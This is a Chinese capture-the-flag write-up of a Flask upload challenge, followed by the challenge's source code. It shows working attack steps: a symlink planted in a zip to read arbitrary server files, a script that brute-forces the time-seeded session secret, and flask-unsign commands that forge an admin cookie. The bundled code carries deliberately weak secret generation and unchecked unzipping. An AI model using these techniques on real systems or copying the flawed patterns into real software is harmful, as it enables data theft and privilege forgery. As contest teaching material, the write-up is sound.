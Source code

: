 - # 题解
	- 题目源码解析:`app.py`
		- `/login`登陆接口
		- `/register`注册接口
		- `/upload`接收用户发送的zip文件，解压，并将解压后的路径告诉用户
		- `/uploads/<path>`读取zip解压后的文件并发给用户
		- `/flag`如果用户是admin即发送flag
		- 后端使用flask，其特点是将session签名保存在用户的cookie中，攻击者只需要想办法获取secret就可以伪造session
		- 将日志保存在`/tmp/server.log`中，可以通过日志判断启动时间
	- 源码解析:`config.py`
		- 会使用随机数生成secret用于签名session
		- 随机数种子用启动的时间以及`SECRET_OFFSET`的值生成
		- 播种公式：`random.seed(round((time.time() + SECRET_OFFSET) * 1000))`
			- `time.time()`时间戳，精确到毫秒
			- 种子：四舍五入的`(time.time() + SECRET_OFFSET) * 1000`
	- 任意文件读取：软链接攻击
	  id:: 63c3b277-fdc4-479f-974a-abc0cf1a9fc4
		- 在zip包内保存一个软链接，然后再让服务器读取这个软链接即可读取任意文件
		- 可以使用 ((63c3a891-f453-463c-a33c-571e51441127)) 读取任意文件
			- `ln -s /app/config.py file && zip -ry zip.zip file && base64 -w 0 zip.zip`
		- 无权读取flag文件
	- 主要思路：
		- 用任意文件读取漏洞读取`SECRET_OFFSET`和服务器启动时间
		  id:: 63c3b477-fe5e-4a86-8157-a27026da0934
		- 生成所有可能的secret
		  id:: 63c3b77c-b5b5-4079-a40f-2c005088f6f9
			- 因为服务器启动时间不够精确，只能这样
		- 用 [[CTF/Flask-Unsign]] 测试所有的secret, 发现只有一个可以解密签名
		  id:: 63c3b79c-6531-4b4c-833a-d2c4a0691519
		- 使用正确的secret伪造管理员身份拿到flag
		  id:: 63c3b85f-9bc5-4586-8bf1-318f562379d7
		- [[draws/2023-01-15-16-17-22.excalidraw]]
	- ((63c3b477-fe5e-4a86-8157-a27026da0934))
		- 使用 ((63c3b277-fdc4-479f-974a-abc0cf1a9fc4)) 读取`/app/config.py`和`/tmp/server.log`即可
	- ((63c3b77c-b5b5-4079-a40f-2c005088f6f9))
		- 代码：
			- ```python
			  from datetime import datetime
			  import random
			  
			  def timestamp_to_secret(timestamp):
			      random.seed(round((timestamp) * 1000))
			      return "".join([hex(random.randint(0, 15)) for x in range(32)]).replace("0x", "")
			  
			  SECRET_OFFSET = -67198624
			  
			  date_string = "2023-01-14 23:03:32 +0000"
			  dt_format = datetime.strptime(date_string, '%Y-%m-%d %H:%M:%S %z')
			  
			  timestamp = dt_format.timestamp()
			  timestamp += SECRET_OFFSET
			  
			  l = []
			  
			  for i in range(-2000, 2000):
			      l.append(timestamp_to_secret(timestamp + i / 1000))
			  
			  with open("test.txt", "w") as f:
			      f.writelines([line + "\n" for line in l])
			  ```
	- ((63c3b79c-6531-4b4c-833a-d2c4a0691519))
		- 运行`flask-unsign -u -w test.txt -c eyJhZG1pbiI6ZmFsc2UsInVpZCI6InRlc3R0ZXN0In0.Y8OwiQ.rKYwk2_A8u4XQqEyTJbVL5WcV64`
	- ((63c3b85f-9bc5-4586-8bf1-318f562379d7))
		- `flask-unsign -s --secret e897071bf3d5dc6ff7882fc0b64ece5c --cookie "{'admin': True, 'uid': 'testtest'}"`
- # 源码
	- `app.py`
		- ```python
		  import logging
		  import os
		  import re
		  import sqlite3
		  import subprocess
		  import uuid
		  import zipfile
		  
		  from flask import (Flask, flash, redirect, render_template, request, abort,
		                     send_from_directory, session)
		  from werkzeug.security import check_password_hash, generate_password_hash
		  
		  
		  app = Flask(__name__)
		  DATA_DIR = "/tmp/"
		  
		  # 设置最大文件大小
		  app.config['MAX_CONTENT_LENGTH'] = 2 * 1000 * 1000
		  
		  # 配置日志模块，将所有日志存储在/tmp/server.log中
		  LOG_HANDLER = logging.FileHandler(DATA_DIR + 'server.log')
		  LOG_HANDLER.setFormatter(logging.Formatter(fmt="[{levelname}] [{asctime}] {message}", style='{'))
		  logger = logging.getLogger("application")
		  logger.addHandler(LOG_HANDLER)
		  logger.propagate = False
		  for handler in logging.root.handlers[:]:
		      logging.root.removeHandler(handler)
		  logging.basicConfig(level=logging.WARNING, format='%(asctime)s %(levelname)s %(name)s %(threadName)s : %(message)s')
		  logging.getLogger().addHandler(logging.StreamHandler())
		  
		  # 设置秘密
		  app.config["SECRET_KEY"] = os.environ["SECRET_KEY"]
		  
		  @app.route("/")
		  def index():
		      return render_template("index.html")
		  
		  
		  @app.route("/login", methods=["GET", "POST"])
		  def login():
		      session.clear()
		  
		      if request.method == "GET":
		          return render_template("login.html")
		  
		      # 获取用户名和密码
		      username = request.form.get("username", "")
		      password = request.form.get("password", "")
		  
		      # 根据用户名查询密码，并和输入的密码对比
		      with sqlite3.connect(DATA_DIR + "database.db") as db:
		          res = db.cursor().execute("SELECT password, admin FROM users WHERE username=?", (username,))
		          user = res.fetchone()
		          if not user or not check_password_hash(user[0], password):
		              flash("Incorrect username/password", "danger")
		              return render_template("login.html")
		      
		      # 设置uid和admin
		      session["uid"] = username
		      session["admin"] = user[1]
		      return redirect("/upload")
		  
		  
		  @app.route("/register", methods=["GET", "POST"])
		  def register():
		      session.clear()
		  
		      if request.method == "GET":
		          return render_template("register.html")
		  
		      # 获取用户名和密码，用户名需要符合[a-zA-Z0-9_]{1,24}
		      username = request.form.get("username", "")
		      password = request.form.get("password", "")
		      if not username or not password or not re.fullmatch("[a-zA-Z0-9_]{1,24}", username):
		          flash("Invalid username/password", "danger")
		          return render_template("register.html")
		      
		      # 查询用户名是否重复，添加用户
		      with sqlite3.connect(DATA_DIR + "database.db") as db:
		          res = db.cursor().execute("SELECT username FROM users WHERE username=?", (username,))
		          if res.fetchone():
		              flash("That username is already registered", "danger")
		              return render_template("register.html")
		          
		          db.cursor().execute("INSERT INTO users (username, password) VALUES (?, ?)", (username, generate_password_hash(password)))
		          db.commit()
		      
		      session["uid"] = username
		      session["admin"] = False
		      return redirect("/upload")
		  
		  
		  @app.route("/upload", methods=["GET", "POST"])
		  def upload():
		      if not session.get("uid"):
		          return redirect("/login")
		      if request.method == "GET":
		          return render_template("upload.html")
		  
		      if "file" not in request.files:
		          flash("You didn't upload a file!", "danger")
		          return render_template("upload.html")
		      
		  
		      file = request.files["file"]
		  
		      # 生成随机名字并保存
		      uuidpath = str(uuid.uuid4())
		      filename = f"{DATA_DIR}uploadraw/{uuidpath}.zip"
		      file.save(filename)
		  
		      # 解压缩
		      subprocess.call(["unzip", filename, "-d", f"{DATA_DIR}uploads/{uuidpath}"])
		  
		      # 通知
		      flash(f'Your unique ID is <a href="/uploads/{uuidpath}">{uuidpath}</a>!', "success")
		      logger.info(f"User {session.get('uid')} uploaded file {uuidpath}")
		      return redirect("/upload")
		  
		  
		  @app.route("/uploads/<path:path>")
		  def uploads(path):
		      try:
		          return send_from_directory(DATA_DIR + "uploads", path)
		      except PermissionError:
		          abort(404)
		  
		  
		  @app.route("/flag")
		  def flag():
		      if not session.get("admin"):
		          return "Unauthorized!"
		      return subprocess.run("./flag", shell=True, stdout=subprocess.PIPE).stdout.decode("utf-8")
		  ```
	- `config.py`
		- ```python
		  import random
		  import os
		  import time
		  
		  SECRET_OFFSET = 0 # REDACTED
		  random.seed(round((time.time() + SECRET_OFFSET) * 1000))
		  os.environ["SECRET_KEY"] = "".join([hex(random.randint(0, 15)) for x in range(32)]).replace("0x", "")
		  ```